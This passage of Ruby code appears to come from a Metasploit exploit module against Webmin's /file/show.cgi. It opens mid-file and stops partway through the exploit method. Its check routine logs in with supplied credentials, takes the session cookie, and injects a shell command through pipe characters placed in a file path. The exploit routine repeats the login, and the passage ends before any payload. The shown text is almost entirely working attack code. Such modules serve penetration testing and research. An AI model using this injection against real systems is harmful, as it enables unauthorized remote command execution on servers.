 ```ruby
				], self.class)
	end

	def check

		peer = "#{rhost}:#{rport}"

		print_status("#{peer} - Attempting to login...")

		data = "page=%2F&user=#{datastore['USERNAME']}&pass=#{datastore['PASSWORD']}"

		res = send_request_cgi(
			{
				'method'  => 'POST',
				'uri'     => "/session_login.cgi",
				'cookie'  => "testing=1",
				'data'    => data
			}, 25)

		if res and res.code == 302 and res.headers['Set-Cookie'] =~ /sid/
			print_good "#{peer} - Authentication successful"
			session = res.headers['Set-Cookie'].split("sid=")[1].split(";")[0]
		else
			print_error "#{peer} - Authentication failed"
			return Exploit::CheckCode::Unknown
		end

		print_status("#{peer} - Attempting to execute...")

		command = "echo #{rand_text_alphanumeric(rand(5) + 5)}"

		res = send_request_cgi(
			{
				'uri'     => "/file/show.cgi/bin/#{rand_text_alphanumeric(5)}|#{command}|",
				'cookie'  => "sid=#{session}"
			}, 25)


		if res and res.code == 200 and res.message =~ /Document follows/
			return Exploit::CheckCode::Appears
		else
			return Exploit::CheckCode::Safe
		end

	end

	def exploit

		peer = "#{rhost}:#{rport}"

		print_status("#{peer} - Attempting to login...")

		data = "page=%2F&user=#{datastore['USERNAME']}&pass=#{datastore['PASSWORD']}"

		res = send_request_cgi(
			{
				'method'  => 'POST',
				'uri'     => "/session_login.cgi",
				'cookie'  => "testing=1",
				'data'    => data
			}, 25)

		if res and res.code == 302 and res.headers['Set-Cookie'] =~ /sid/
```